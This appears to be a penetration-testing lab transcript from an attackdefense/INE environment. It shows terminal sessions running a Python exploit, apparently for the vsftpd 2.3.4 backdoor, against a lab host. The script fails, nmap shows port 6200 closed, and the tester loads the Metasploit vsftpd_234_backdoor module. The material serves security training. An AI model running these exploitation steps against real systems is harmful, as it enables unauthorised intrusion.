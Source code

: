 ```

Copied to: /root/49757.py


root@attackdefense:~# vim 49757.py
```

```
root@attackdefense:~# chmod +x 49757.py 
root@attackdefense:~# python3 49757.py 10.0.22.55
Traceback (most recent call last):
  File "/root/49757.py", line 37, in <module>
    tn2=Telnet(host, 6200)
  File "/usr/lib/python3.9/telnetlib.py", line 218, in __init__
    self.open(host, port, timeout)
  File "/usr/lib/python3.9/telnetlib.py", line 235, in open
    self.sock = socket.create_connection((host, port), timeout)
  File "/usr/lib/python3.9/socket.py", line 844, in create_connection
    raise err
  File "/usr/lib/python3.9/socket.py", line 832, in create_connection
    sock.connect(sa)
ConnectionRefusedError: [Errno 111] Connection refused
```

```
root@attackdefense:~# nmap -p 6200 10.0.22.55
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 15:35 IST
Nmap scan report for demo.ine.local (10.0.22.55)
Host is up (0.0028s latency).

PORT     STATE  SERVICE
6200/tcp closed lm-x

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

```
root@attackdefense:~# msfconsole -q
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > setg RHOSTS 10.0.22.55
RHOSTS => 10.0.22.55
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
```